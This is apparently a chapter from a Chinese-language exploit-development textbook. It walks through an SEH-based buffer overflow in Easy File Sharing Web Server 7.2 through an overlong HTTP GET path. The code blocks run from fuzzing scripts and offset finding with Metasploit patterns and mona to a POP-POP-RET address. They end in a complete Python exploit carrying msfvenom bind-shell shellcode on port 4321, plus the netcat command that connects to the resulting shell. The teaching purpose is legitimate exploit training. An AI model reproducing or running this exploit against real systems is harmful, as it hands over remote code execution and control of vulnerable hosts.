









# 第十一章：真实场景 - 第 3 部分

这是我们书中最后的实际部分。它采用了不同的方法，专注于基于**结构化异常处理**（**SEH**）的缓冲区溢出，也基于 HTTP 头部，但使用了 GET 请求。

# Easy File Sharing Web Server

我们的目标是 Easy File Sharing Web Server 7.2。您可以在[`www.exploit-db.com/exploits/39008/`](https://www.exploit-db.com/exploits/39008/)找到利用程序，并可以从[`www.exploit-db.com/apps/60f3ff1f3cd34dec80fba130ea481f31-efssetup.exe`](https://www.exploit-db.com/apps/60f3ff1f3cd34dec80fba130ea481f31-efssetup.exe)下载易受攻击的应用程序。

下载并安装应用程序；如果您在上一个实验中已经这样做了，那么我们需要关闭 Sync Breeze Enterprise 中的 Web 服务器，因为我们需要端口`80`。

打开 Sync Breeze Enterprise 并导航到 Tools | Advanced Options... | Server，确保在端口上启用 Web 服务器被禁用：



点击保存以保存更改并关闭它。

打开 Easy File Sharing Web Server：


点击 Try it!。当应用程序打开时，点击左上角的 Start：



# Fuzzing

我们的参数是`GET`参数；请看以下截图：


`GET`后面的`/`是我们的参数；让我们构建我们的 fuzzing 代码：

```
#!/usr/bin/python
import socket

junk = 

s = socket.socket()
s.connect(('192.168.129.128',80))
s.send("GET " + junk + " HTTP/1.0\r\n\r\n") 
s.close()
```

在受害机器上，以管理员身份启动 Immunity Debugger 并附加到`fsws`：



让我们从`1000`开始一个 fuzzing 值：

```
junk = 'A'*1000
```

然后运行利用程序：


什么都没发生；让我们增加到`3000`：

```
junk = 'A'*3000
```

然后，再次运行利用程序：



再次，一样；让我们尝试`5000`：

```
junk = 'A'*5000
```

然后，再次运行利用程序：



还要在堆栈窗口中向下滚动；您将看到我们成功溢出了 SEH 和 nSEH：


我们可以通过导航到 View | SEH chain 或（*Alt* + *S*）来确认：


# 控制 SEH

现在，让我们尝试通过使用 Metasploit 创建模式来获取 SEH 的偏移量：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_create.rb -l 5000
```

利用程序应该是这样的：

```
#!/usr/bin/python
import socket

junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk'

s = socket.socket()
s.connect(('192.168.129.128',80))
s.send("GET " + junk + " HTTP/1.0\r\n\r\n") 
s.close()
```

关闭 Immunity Debugger，重新运行 Easy File Sharing Web Server。以管理员身份运行 Immunity Debugger 并将其附加到`fsws`，然后运行利用程序。

应用程序崩溃了；让我们使用`mona`对我们的模式进行一些分析：



```
!mona findmsp
```

上述命令的输出可以在以下截图中看到：



所以 nSEH 的偏移应该在`4061`之后。

通过重新启动应用程序和 Immunity Debugger 来确认：

```
#!/usr/bin/python
import socket

junk = 'A'*4061
nSEH = 'B'*4
SEH = 'C'*4
pad = 'D'*(5000-4061-4-4)

injection = junk + nSEH + SEH + pad

s = socket.socket()
s.connect(('192.168.129.128',80))
s.send("GET " + injection + " HTTP/1.0\r\n\r\n") 
s.close()
```

现在，运行利用程序：


按下*Shift* + *F9*来绕过异常：


获取 SEH 链（*Alt* + *S*）：


在堆栈中查找地址`04AD6FAC`：



我们的 B 位于下一个 SEH 中，我们的 C 位于 SEH 中。现在，我们对该应用程序的 SEH 有了控制。

# 注入 shellcode

这就是**shellcode**的样子：


现在我们需要为短跳转操作设置**nSEH**，`\xeb\x10`，并为`pop`，`pop`和`ret`操作设置**SEH**地址。让我们尝试使用`mona`来找到一个。

首先，在 Immunity Debugger 中设置日志文件位置：

```
!mona config -set workingfolder c:\logs\%p
```

然后，提取 SEH 的详细信息：

```
!mona seh
```

以下截图显示了上述命令的输出：



我们需要一个没有任何坏字符的地址，所以从`c:\logs\fsws\seh.txt`中打开日志文件。

选择一个，但记住要避免任何坏字符：

```
0x1001a1bf : pop edi # pop ebx # ret  |  {PAGE_EXECUTE_READ} [ImageLoad.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\EFS Software\Easy File Sharing Web Server\ImageLoad.dll)
```

这是我们的 SEH 地址`0x1001a1bf`：

```
SEH = '\xbf\xa1\x01\x10' 
```

现在是时候在端口`4321`上生成和绑定 TCP shellcode 了。

```
$ msfvenom -p windows/shell_bind_tcp LPORT=4321 -b '\x00\x20\x25\x2b\x2f\x5c' -f python

buf = ""
buf += "\xd9\xf6\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x53\xbb\xbb"
buf += "\x75\x92\x5d\x31\x58\x17\x83\xe8\xfc\x03\xe3\x66\x70"
buf += "\xa8\xef\x61\xf6\x53\x0f\x72\x97\xda\xea\x43\x97\xb9"
buf += "\x7f\xf3\x27\xc9\x2d\xf8\xcc\x9f\xc5\x8b\xa1\x37\xea"
buf += "\x3c\x0f\x6e\xc5\xbd\x3c\x52\x44\x3e\x3f\x87\xa6\x7f"
buf += "\xf0\xda\xa7\xb8\xed\x17\xf5\x11\x79\x85\xe9\x16\x37"
buf += "\x16\x82\x65\xd9\x1e\x77\x3d\xd8\x0f\x26\x35\x83\x8f"
buf += "\xc9\x9a\xbf\x99\xd1\xff\xfa\x50\x6a\xcb\x71\x63\xba"
buf += "\x05\x79\xc8\x83\xa9\x88\x10\xc4\x0e\x73\x67\x3c\x6d"
buf += "\x0e\x70\xfb\x0f\xd4\xf5\x1f\xb7\x9f\xae\xfb\x49\x73"
buf += "\x28\x88\x46\x38\x3e\xd6\x4a\xbf\x93\x6d\x76\x34\x12"
buf += "\xa1\xfe\x0e\x31\x65\x5a\xd4\x58\x3c\x06\xbb\x65\x5e"
buf += "\xe9\x64\xc0\x15\x04\x70\x79\x74\x41\xb5\xb0\x86\x91"
buf += "\xd1\xc3\xf5\xa3\x7e\x78\x91\x8f\xf7\xa6\x66\xef\x2d"
buf += "\x1e\xf8\x0e\xce\x5f\xd1\xd4\x9a\x0f\x49\xfc\xa2\xdb"
buf += "\x89\x01\x77\x71\x81\xa4\x28\x64\x6c\x16\x99\x28\xde"
buf += "\xff\xf3\xa6\x01\x1f\xfc\x6c\x2a\x88\x01\x8f\x44\xa8"
buf += "\x8f\x69\x0e\x3a\xc6\x22\xa6\xf8\x3d\xfb\x51\x02\x14"
buf += "\x53\xf5\x4b\x7e\x64\xfa\x4b\x54\xc2\x6c\xc0\xbb\xd6"
buf += "\x8d\xd7\x91\x7e\xda\x40\x6f\xef\xa9\xf1\x70\x3a\x59"
buf += "\x91\xe3\xa1\x99\xdc\x1f\x7e\xce\x89\xee\x77\x9a\x27"
buf += "\x48\x2e\xb8\xb5\x0c\x09\x78\x62\xed\x94\x81\xe7\x49"
buf += "\xb3\x91\x31\x51\xff\xc5\xed\x04\xa9\xb3\x4b\xff\x1b"
buf += "\x6d\x02\xac\xf5\xf9\xd3\x9e\xc5\x7f\xdc\xca\xb3\x9f"
buf += "\x6d\xa3\x85\xa0\x42\x23\x02\xd9\xbe\xd3\xed\x30\x7b"
buf += "\xe3\xa7\x18\x2a\x6c\x6e\xc9\x6e\xf1\x91\x24\xac\x0c"
buf += "\x12\xcc\x4d\xeb\x0a\xa5\x48\xb7\x8c\x56\x21\xa8\x78"
buf += "\x58\x96\xc9\xa8"
```

我们的利用程序的结构应该是这样的：


让我们看看我们最终的利用程序：

```
#!/usr/bin/python
import socket

junk = 'A'*4061
nSEH='\xeb\x10\x90\x90'
SEH = '\xbf\xa1\x01\x10' 
NOPs='\x90'*20

buf = ""
buf += "\xd9\xf6\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x53\xbb\xbb"
buf += "\x75\x92\x5d\x31\x58\x17\x83\xe8\xfc\x03\xe3\x66\x70"
buf += "\xa8\xef\x61\xf6\x53\x0f\x72\x97\xda\xea\x43\x97\xb9"
buf += "\x7f\xf3\x27\xc9\x2d\xf8\xcc\x9f\xc5\x8b\xa1\x37\xea"
buf += "\x3c\x0f\x6e\xc5\xbd\x3c\x52\x44\x3e\x3f\x87\xa6\x7f"
buf += "\xf0\xda\xa7\xb8\xed\x17\xf5\x11\x79\x85\xe9\x16\x37"
buf += "\x16\x82\x65\xd9\x1e\x77\x3d\xd8\x0f\x26\x35\x83\x8f"
buf += "\xc9\x9a\xbf\x99\xd1\xff\xfa\x50\x6a\xcb\x71\x63\xba"
buf += "\x05\x79\xc8\x83\xa9\x88\x10\xc4\x0e\x73\x67\x3c\x6d"
buf += "\x0e\x70\xfb\x0f\xd4\xf5\x1f\xb7\x9f\xae\xfb\x49\x73"
buf += "\x28\x88\x46\x38\x3e\xd6\x4a\xbf\x93\x6d\x76\x34\x12"
buf += "\xa1\xfe\x0e\x31\x65\x5a\xd4\x58\x3c\x06\xbb\x65\x5e"
buf += "\xe9\x64\xc0\x15\x04\x70\x79\x74\x41\xb5\xb0\x86\x91"
buf += "\xd1\xc3\xf5\xa3\x7e\x78\x91\x8f\xf7\xa6\x66\xef\x2d"
buf += "\x1e\xf8\x0e\xce\x5f\xd1\xd4\x9a\x0f\x49\xfc\xa2\xdb"
buf += "\x89\x01\x77\x71\x81\xa4\x28\x64\x6c\x16\x99\x28\xde"
buf += "\xff\xf3\xa6\x01\x1f\xfc\x6c\x2a\x88\x01\x8f\x44\xa8"
buf += "\x8f\x69\x0e\x3a\xc6\x22\xa6\xf8\x3d\xfb\x51\x02\x14"
buf += "\x53\xf5\x4b\x7e\x64\xfa\x4b\x54\xc2\x6c\xc0\xbb\xd6"
buf += "\x8d\xd7\x91\x7e\xda\x40\x6f\xef\xa9\xf1\x70\x3a\x59"
buf += "\x91\xe3\xa1\x99\xdc\x1f\x7e\xce\x89\xee\x77\x9a\x27"
buf += "\x48\x2e\xb8\xb5\x0c\x09\x78\x62\xed\x94\x81\xe7\x49"
buf += "\xb3\x91\x31\x51\xff\xc5\xed\x04\xa9\xb3\x4b\xff\x1b"
buf += "\x6d\x02\xac\xf5\xf9\xd3\x9e\xc5\x7f\xdc\xca\xb3\x9f"
buf += "\x6d\xa3\x85\xa0\x42\x23\x02\xd9\xbe\xd3\xed\x30\x7b"
buf += "\xe3\xa7\x18\x2a\x6c\x6e\xc9\x6e\xf1\x91\x24\xac\x0c"
buf += "\x12\xcc\x4d\xeb\x0a\xa5\x48\xb7\x8c\x56\x21\xa8\x78"
buf += "\x58\x96\xc9\xa8"

injection = junk + nSEH + SEH + NOPs + buf

s = socket.socket()
s.connect(('192.168.129.128',80))
s.send("GET " + injection + " HTTP/1.0\r\n\r\n") 
s.close()
```

关闭应用程序并重新启动。然后，运行利用程序并在端口`4321`上运行`nc`：

```
$ nc 192.168.129.128 4321
```

上述命令的输出如下所示：


运行正常！

# 总结

在本章中，我们对一些新的东西进行了真实的场景，即基于 SEH 的缓冲区溢出，并看了如何控制 SEH 并利用它。

到目前为止，我们在本书中所做的只是触及了这种类型的攻击的表面，您应该多加练习，因为这还不是结束。

在下一章中，我们将讨论系统中的安全机制以及如何使您的代码更安全。
